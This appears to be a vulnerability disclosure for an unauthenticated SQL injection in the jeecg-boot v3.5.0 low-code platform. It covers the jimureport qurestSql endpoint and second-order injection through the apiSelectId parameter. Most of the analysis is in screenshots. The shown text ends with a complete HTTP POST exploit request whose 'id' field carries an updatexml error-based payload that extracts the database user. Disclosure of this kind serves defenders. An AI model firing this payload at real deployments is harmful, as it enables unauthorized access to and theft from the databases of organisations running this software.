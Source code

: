 # Java Low Code Platform for Enterprise web applications jeecg-boot(v3.5.0) latest unauthorized sql injection. 
## The program is built using the idea
## Vulnerability File: jimureport-spring-boot-starter-1.5.6.jar!/org/jeecg/modules/jmreport/desreport/a/a.class
## code
![image](https://user-images.githubusercontent.com/6756211/225226785-921a16d8-d593-46cf-afaa-c01049295897.png)

the params *apiSelectId* will query infos from table jimu_report_db
![image](https://user-images.githubusercontent.com/6756211/225229552-e66847a8-5352-4c0f-a631-94c030f930a3.png)
the column db_dyn_sql in jimu_report_db is a sql statement, and this sql will cause Second Degree injection
![image](https://user-images.githubusercontent.com/6756211/225231234-5c6e87d6-bb7a-439e-91a0-911a4e1ea45d.png)

## payload
![image](https://user-images.githubusercontent.com/6756211/225232140-4bc42acf-91e2-479b-bf6e-a9c797e070f9.png)
![Jietu20230315-151505](https://user-images.githubusercontent.com/6756211/225234485-082b8fa1-2214-4437-beb9-7e937a0c9790.jpg)

```
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
Content-Length: 130
Content-Type: application/json;charset=UTF-8

{"apiSelectId":"1290104038414721025",
"id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}
```
